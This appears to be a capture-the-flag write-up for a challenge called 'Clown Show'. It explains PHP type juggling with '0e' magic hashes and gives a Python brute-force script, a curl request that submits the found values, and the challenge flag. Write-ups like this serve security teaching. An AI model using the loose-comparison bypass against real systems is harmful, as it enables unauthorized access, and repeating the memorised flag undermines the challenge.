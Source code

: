 # Clown Show

/src.php has source for the site. We can send a few params, which are hashed together and the result \(chars 5-25\) are compared to '0' \(using `==`\). In php, this is vulnerable to type juggling. `0e1434 == '0'` for example. We simply have to find a set of values satisfying these constraints.

```python
import hashlib

def hash(string):
    return hashlib.sha256(string).hexdigest()

time = b"12345678901"
name = b"test"
import os, binascii
import re
while True:
    answer = binascii.hexlify(os.urandom(20))
    thing = hash(name + answer + time)
    if len(re.findall('^(.{5}0e[\d]{18})', thing)) > 0:
        print(re.findall('^.....0e\d{18}', thing))
        print(name + b" " + answer + b" " + time)
        print(thing)
        exit()
```

curl [http://challenge.ctf.games:31965/index.php](http://challenge.ctf.games:31965/index.php) -d 'name=test&answer=6b067ebdb712e42e64e6dcaeb6513afd0f801bfc&time=12345678901'

## Flag:flag{w00t\_W0ot\_juggl1n6\_1s\_2\_3z}

